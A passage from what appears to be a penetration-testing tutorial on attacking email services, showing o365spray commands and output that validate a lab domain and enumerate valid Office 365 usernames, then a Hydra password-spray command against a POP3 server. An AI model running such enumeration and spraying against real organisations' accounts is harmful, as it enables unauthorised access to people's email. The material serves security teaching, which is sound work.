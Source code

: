             *** O365 Spray ***            

&gt;----------------------------------------&lt;

   &gt; version        :  2.0.4
   &gt; domain         :  msplaintext.xyz
   &gt; validate       :  True
   &gt; timeout        :  25 seconds
   &gt; start          :  2022-04-13 09:46:40

&gt;----------------------------------------&lt;

[2022-04-13 09:46:40,344] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-13 09:46:40,743] INFO : [VALID] The following domain is using O365: msplaintext.xyz
</code></pre>
<p>Now, we can attempt to identify usernames.</p>
<pre><code class="language-shell-session">[!bash!]$ python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz        
                                       
            *** O365 Spray ***             

&gt;----------------------------------------&lt;

   &gt; version        :  2.0.4
   &gt; domain         :  msplaintext.xyz
   &gt; enum           :  True
   &gt; userfile       :  users.txt
   &gt; enum_module    :  office
   &gt; rate           :  10 threads
   &gt; timeout        :  25 seconds
   &gt; start          :  2022-04-13 09:48:03

&gt;----------------------------------------&lt;

[2022-04-13 09:48:03,621] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-13 09:48:04,062] INFO : [VALID] The following domain is using O365: msplaintext.xyz
[2022-04-13 09:48:04,064] INFO : Running user enumeration against 67 potential users
[2022-04-13 09:48:08,244] INFO : [VALID] <a class="__cf_email__" data-cfemail="264a43514348664b55564a474f4852435e52085e5f5c" href="/cdn-cgi/l/email-protection">[email protected]</a>
[2022-04-13 09:48:10,415] INFO : [VALID] <a class="__cf_email__" data-cfemail="e58f909097808b84a588969589848c8b91809d91cb9d9c9f" href="/cdn-cgi/l/email-protection">[email protected]</a>
[2022-04-13 09:48:10,415] INFO : 

[ * ] Valid accounts can be found at: '/opt/o365spray/enum/enum_valid_accounts.2204130948.txt'
[ * ] All enumerated accounts can be found at: '/opt/o365spray/enum/enum_tested_accounts.2204130948.txt'

[2022-04-13 09:48:10,416] INFO : Valid Accounts: 2
</code></pre>
<hr/>
<h2>Password Attacks</h2>
<p>We can use <code>Hydra</code> to perform a password spray or brute force against email services such as <code>SMTP</code>, <code>POP3</code>, or <code>IMAP4</code>. First, we need to get a username list and a password list and specify which service we want to attack. Let us see an example for <code>POP3</code>.</p>
<h4>Hydra - Password Attack</h4>
<pre><code class="language-shell-session">[!bash!]$ hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
